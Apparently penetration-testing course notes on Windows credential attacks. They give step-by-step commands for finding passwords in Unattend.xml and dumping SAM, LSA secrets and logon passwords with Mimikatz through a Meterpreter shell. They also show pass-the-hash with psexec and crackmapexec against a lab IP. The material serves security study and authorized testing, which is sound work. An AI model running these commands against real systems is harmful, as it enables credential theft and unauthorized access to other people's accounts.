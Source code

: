 
<h4>Windows Password Hashes</h4>

The windows OS stores hashed user account passwords locally in the SAM(Security Accounts Manager) database

>Elevated/Administrative privileges are required in order to access and interact with the LSASS process

In modern version of windows the SAM database is encrypted with a syskey


<h4>Searching for passwords in windows configuration files</h4>

This is typically done through the use of the "Unattended Windows Setup utility", which is used to automate the mass installation/deployment of Windows on Systems

The unattended windows setup utility will typically utilize one of the following configuration files that contain user account and  system configuration information

1. "C:\Windows\Panther\Unattend.xml"
2. "C:\Windows\Panther\Autounattend.xml"

>As a security precaution, the passwords stored in the unattended windows setup configuration file may be encoded in base64

To search for the xml file
```
search -f Unattend.xml
```
the file is located in
```
C:\Windows\Panther
```
Download it to your machine
```
Download Unattend.xml
```
From here you can get a username and password. You can go ahead and use psexec to connect to the creds you found
```
psexec.py Administrator@10.10.10.10   //This requires a password
```



<h4>Dumping Hashes with Mimikatz</h4>

Mimikatz is a windows post exploitation tool. It can be used to extract hashes from "lsass.exe" process memory where hashes are cached

If you are on a meterpreter shell, you can utilize the mimikatz extension "kiwi".

>Mimikatz will require elevated privileges in order to run correctly

Migrate to the lsass.exe process
```
pgrep lsass
migrate 777
```
To use the kiwi extension
```
load kiwi
```
You can use the help menu to check for commands after loading the extension
```
help
```
To use the mimikatz executable, create a temp dir
```
cd C:\\
mkdir Temp
cd Temp
upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
```
open a shell session
```
shell
```
execute the mimikatz executale
```
mimikatz.exe
```
Check if you have appropriate privileges
```
Privilege::debug //privilege '20' ok means you've got privileges
```
To dump for the sam database
```
lsadump::sam
```
To dump lsa secrte
```
lsadump::secret
```
To display logon passwords
```
sekurlsa::logonpasswords
```



<h4>Pass The Hash Attack</h4>
This is an exploitation technique that involved capturing or harvesting NTLM hashes or clear-text passwords and utilizing them to authenticate with the target legitimately

>Metasploit module PsEcec
>Crackmapexec

Those 2 tools above can be used for this attack.

So you can reconnnect to the machine with the user's ntlm hash
```
crackmapexec smb 10.10.10.10 -u (username) -H "(NTLM hash)"
```
If this works, go ahead and execute a few command on it
```
crackmapexec smb 10.10.10.10 -u (username) -H "(NTLM hash)" -x "ipconfig"
```
